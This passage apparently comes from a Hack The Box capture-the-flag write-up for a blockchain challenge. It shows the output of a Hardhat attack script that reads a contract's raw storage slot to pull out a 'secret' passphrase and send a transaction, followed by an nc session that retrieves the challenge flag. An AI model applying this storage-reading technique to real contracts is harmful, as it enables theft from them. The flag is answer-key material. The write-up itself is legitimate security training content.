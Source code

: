 Here is the result:

```sh
┌──(virgile㉿localhost)-[~/Téléchargements/attack-eldorion]
└─$ npx hardhat run script/attack3.js --network custom
Kernel address: 0xaB9E854215D37e5116B80080e18711F0c6F49075
Raw storage slot 0: 0x00000000000000000000000000000000000000000000000000000000deadfade
Extracted secret (passphrase): 0xdeadfade
Transaction sent: 0x87b8825cba54a8f67ad3e6064ed1b153716fab20a4b5e9011c00052a7fdad3b1
Transaction confirmed.
```

Now, we can ask the flag:

```sh
┌──(virgile㉿localhost)-[~/Téléchargements/attack-eldorion]
└─$ nc 83.136.251.194 55363                                                                                                                                 
1 - Get connection information
2 - Restart instance
3 - Get flag
Select action (enter number): 3
HTB{unkn0wn_1ntrud3r_1nsid3_Eld0r1a_gates}
```

So the flag is `HTB{unkn0wn_1ntrud3r_1nsid3_Eld0r1a_gates}`.